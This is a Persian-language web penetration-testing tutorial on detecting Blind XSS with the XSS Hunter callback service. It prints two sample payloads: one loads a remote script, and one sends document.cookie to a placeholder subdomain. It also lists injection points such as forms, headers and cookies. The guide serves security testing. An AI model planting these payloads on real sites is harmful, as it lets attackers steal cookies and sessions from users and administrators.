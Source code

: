 ## XSS Hunter

آسیب‌پذیری XSS Hunter در تست نفوذ وب به معنای شناسایی و بهره‌برداری از نوع خاصی از XSS به نام Blind XSS است که اجرای کد مخرب در مرورگر قربانی به صورت غیرمستقیم و در زمان‌های بعدی رخ می‌دهد. برای کشف این آسیب‌پذیری معمولاً از سرویس‌ها و ابزارهایی مثل XSS Hunter استفاده می‌شود که به تست نفوذگر اجازه می‌دهد پیلودهای XSS را در نقاط مختلف برنامه تزریق کند و در صورت اجرای آن‌ها، گزارش و لاگ دریافت کند.

روش پیدا کردن آسیب‌پذیری با استفاده از XSS Hunter
ثبت نام و دریافت دامنه اختصاصی XSS Hunter

با ثبت نام در سرویس XSS Hunter، یک دامنه اختصاصی (مثلاً yoursubdomain.xss.ht) دریافت می‌کنید که باید در پیلودهای XSS خود از آن استفاده کنید.

تزریق پیلودهای XSS حاوی دامنه XSS Hunter

پیلودهایی مانند:

xml
<script src="https://yoursubdomain.xss.ht/xss.js"></script>
یا

xml
<img src="https://yoursubdomain.xss.ht/log?cookie="+document.cookie>
این پیلودها را در بخش‌های مختلف برنامه تزریق می‌کنید: فرم‌ها، پارامترهای URL، هدرها (مثل User-Agent)، کوکی‌ها و هر جایی که امکان ورود داده وجود دارد.

صبر و انتظار برای اجرای پیلود

برخلاف XSS معمولی که بلافاصله اجرا می‌شود، Blind XSS ممکن است در زمان‌های بعدی و در بخش‌های دیگر برنامه (مثلاً پنل مدیریت، لاگ‌ها، سیستم‌های مانیتورینگ) اجرا شود.

وقتی پیلود اجرا شود، درخواست به دامنه اختصاصی شما ارسال می‌شود و XSS Hunter آن را ثبت می‌کند.

دریافت گزارش اجرا و تحلیل آن

در پنل XSS Hunter می‌توانید لاگ‌ها، اطلاعات مرورگر قربانی، کوکی‌ها و سایر داده‌های مرتبط با اجرای پیلود را مشاهده کنید.

این اطلاعات به شما کمک می‌کند تا آسیب‌پذیری Blind XSS را تایید و گزارش کنید.

نکات مهم
Blind XSS معمولاً در بخش‌هایی رخ می‌دهد که داده‌های ورودی کاربر ذخیره شده ولی بلافاصله نمایش داده نمی‌شوند، مانند لاگ‌ها، سیستم‌های مانیتورینگ، ایمیل‌ها یا پنل‌های مدیریت.

استفاده از XSS Hunter و سرویس‌های مشابه باعث می‌شود که نیازی به دسترسی مستقیم به مرورگر قربانی نداشته باشید و بتوانید به صورت غیرمستقیم آسیب‌پذیری را اثبات کنید.

در تست‌های حرفه‌ای، ترکیب XSS Hunter با ابزارهایی مثل Burp Suite، XSpear و Dalfox رایج است.

خلاصه
XSS Hunter ابزاری برای شناسایی و اثبات آسیب‌پذیری Blind XSS است.

با تزریق پیلودهای حاوی دامنه اختصاصی XSS Hunter در نقاط مختلف برنامه، منتظر اجرای آن در زمان‌های بعدی می‌مانید.

پس از اجرای پیلود، گزارش و اطلاعات مربوطه در پنل XSS Hunter قابل مشاهده است.

این روش به ویژه برای کشف XSSهای پنهان و Blind بسیار موثر است.

منبع:
مطابق با تجربه تست نفوذ در Google Analytics و گزارش‌های امنیتی، تست نفوذگران با استفاده از XSS Hunter پیلودهای Blind XSS را تزریق کرده و پس از مدت زمان انتظار، اجرای آن‌ها را دریافت و آسیب‌پذیری را گزارش کرده‌اند.
همچنین ابزارهایی مانند XSpear از XSS Hunter برای تست Blind XSS پشتیبانی می‌کنند
